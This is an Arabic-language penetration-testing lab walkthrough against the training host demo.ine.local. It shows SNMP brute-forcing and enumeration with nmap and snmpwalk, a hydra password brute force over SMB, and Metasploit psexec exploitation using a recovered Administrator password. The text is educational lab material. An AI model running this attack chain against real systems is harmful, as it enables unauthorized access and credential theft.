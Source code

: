 خلونا نستخدم سكربت  
```bash
nmap -sU -p 161 --script=snmp-brute demo.ine.local  
```  

نشوف انه حصلنا ثلاث community names  
```bash
public  
private  
secret  
```  

طبعا فيه اداة اسمها snmpwalk راح نستخدمها  
```bash
snmpwalk -v 1 -c public demo.ine.local  
```  
-v: Specifies SNMP version to use  
-c: Set the community string  

طيب نشوف انه عطانا مخرجات كثيره مره  
طبعا بنحصل الانترفيسس ومسارات مجلدات  
طبعا مرات احد المجلدات تقدر تعرف اليوزر نيم   
تقدر بعد تشوف البروسس الي شغاله على الجهاز  
طبعا فيه اشياء مهمه واشياء ماتعنينا  

خلونا نشغل عليه كل السكريبتات الموجوده في nmap  
```bash
nmap -sU -p 161 --script snmp-* demo.ine.local > snmp_output  
```  
طبعا راح يحفظ لنا المخرجات في ملف اسمه snmp_output  

الان لو نقرا المخرجات بنشوف انه حصلنا يوزرات  
```bash
Administrator  
DefaultAccount  
Guest  
EDAGUtiltyAccount  
```  
طبعا راح ناخذهم ونحطهم بملف لحالهم وبنسوي brute force  

طبعا اهم يوزر عندنا او الي يجذبنا اكثر هو Administrator بسبب انه اعلى صلاحيات  

خلونا نسوي البروت فورس الان  
```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb  
```  
نشوف انه حصلنا باسوردين حق اليوزر Administrator , admin  

طبعا نشوف انه اليوزرات طلعناها كانت عن طيب snmp  
طبعا لو نشوف البروت فورس كان على smp والهدق انه فيه command execution  

الان راح نستغله بالـ psexec عن طريق الميتا سبلويت بنفس الطريقه السابقه  
```bash
msfconsole -q  
use exploit/windows/smb/psexec  
show options  
set RHOSTS demo.ine.local  
set SMBUSER administrator  
set SMBPASS elizabeth  
exploit  
```  
